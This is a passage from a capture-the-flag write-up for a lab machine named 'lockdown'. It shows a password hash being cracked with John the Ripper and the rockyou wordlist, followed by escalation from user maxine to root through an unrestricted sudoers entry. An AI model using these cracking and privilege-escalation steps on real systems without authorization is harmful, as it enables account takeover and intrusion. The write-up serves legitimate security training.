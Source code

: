 ```console
┌──(kali㉿kali)-[~/Documents/tthm/lockdown]
└─john -wordlist=rockyou hash_max
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
PASSWORD           (?)
1g 0:00:00:24 DONE (2021-10-02 13:23) 0.04151g/s 3358p/s 3358c/s 3358C/s vivita..skyline123
```

## 6. Privesc, maxine -> root - sudoers ALL

Switching to maxine with the discovered password, we again run `sudo -l` :

```console
Matching Defaults entries for maxine on lockdown:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User maxine may run the following commands on lockdown:
    (ALL : ALL) ALL
```

and we use the ALL permissions to open a shell as root : 

```console
maxine@lockdown:/home/cyrus$ sudo -u root bash -p
root@lockdown:/home/cyrus# id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/root.txt`.
